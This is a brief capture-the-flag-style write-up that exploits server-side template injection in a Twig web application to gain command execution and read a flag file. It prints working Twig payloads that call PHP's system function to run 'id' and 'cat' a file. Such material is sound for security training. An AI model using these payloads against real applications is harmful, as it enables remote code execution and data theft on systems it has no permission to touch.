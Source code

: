 # Exploiting SSTI - Twig

Exploit the SSTI vulnerability to obtain RCE and read the flag.

In this exercise the web application is running the Twig template engine, so lets focus on its specific payloads to retrieve the flag.

<figure><img src="../../../../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>

Lets try to get some information with this payload:

```twig
{{ _self }}
```

<figure><img src="../../../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

And its working! Now lets work on the payload.

Lets try to use the PHP built-in function `system`:

```twig
{{ ['id'] | filter('system') }}
```

<figure><img src="../../../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

As we can see we manage to execute the `id` command on the webserver. Now all we have to do is to work on the payload to retrieve the flag. We can use this one:

```twig
{{ ['cat ../../../flag.txt'] | filter('system') }}
```

<figure><img src="../../../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

And we did it!
